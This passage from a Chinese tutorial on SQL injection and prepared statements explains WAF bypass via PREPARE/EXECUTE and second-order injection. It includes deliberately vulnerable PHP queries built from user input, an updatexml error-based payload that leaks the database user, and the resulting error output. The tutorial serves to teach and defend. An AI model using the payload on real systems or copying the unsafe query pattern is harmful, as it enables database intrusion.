 这样就完美绕过了WAF对SELECT、UPDATE、INSERT等常用关键字或逗号括号等字符的限制。如果想要杜绝这样的风险，只需拦截PREPARE、EXECUTE等关键字，或关闭PDO执行多条查询的功能即可。

关于PREPARE预编译：https://www.cnblogs.com/geaozhang/p/9891338.html

有关预编译的更多特性以及背后的原理，我将在下篇中详细讲解。





# 深入理解SQL注入与预编译（二）

## 特殊注入

### 二次注入

二次注入本质上是信任边界不清晰的问题，**最容易发生在靠WAF苟活的祖传代码上**。一般来说，WAF拦截的是用户输入，但如果攻击来自于数据库呢？很多开发者并没有意识到，从数据库中读取到的数据其实也是处于信任边界之外的，如果代码本身对于SQL注入攻击没有应对措施，很容易被二次注入。

如更新用户名的一个场景：

```php
$username = $_POST['username'];
$id = $_SESSION['id'];
mysql_query("UPDATE nowcoder SET uname = '$username' where id='$id'");
```

如果整个Web应用外没有WAF进行防御，这将是一个典型的UPDATE报错注入。当黑客将用户名设为`' or updatexml(1,concat(0x7e,(user())),0) or '`，所执行的SQL语句就会变为：

```sql
UPDATE nowcoder SET uname = ''or updatexml(1,concat(0x7e,(user())),0) or ''WHERE id = 1;
```

从而在报错提示中爆出当前数据库用户名：

```
ERROR 1105(HY000): XPATH syntax error: '~root@localhost'
```

当Web应用外层有WAF存在时，会检查用户输入，为了兼顾用户体验，不做过滤或拦截处理，而是转义引号，执行的SQL语句变为：

```sql
UPDATE nowcoder SET uname = '\' or updatexml(1,concat(0x7e,(user())),0) or \''WHERE id = 1
```

可以看到黑客传入的攻击Payload已失效，`'`被转义为`\'`后已经单纯变为一个单引号字符，不再具有闭合其他单引号的功能，于是整个Payload完全变为了一个字符串。若此时有另外一处获取用户写过的文章标题的功能由于需要跨表查询用到了这个用户名：

```php
$id=$_SESSION['id'];
//嵌套查询
mysql_query("SELECT title FROM passage WHERE uname = (SELECT uname FROM nowcoder WHERE id = $id)");
//或是使用JOIN
mysql_query("SELECT title FROM passage JOIN nowcoder WHERE passage.uname = nowcoder.uname AND nowcoder.id = $id");
```

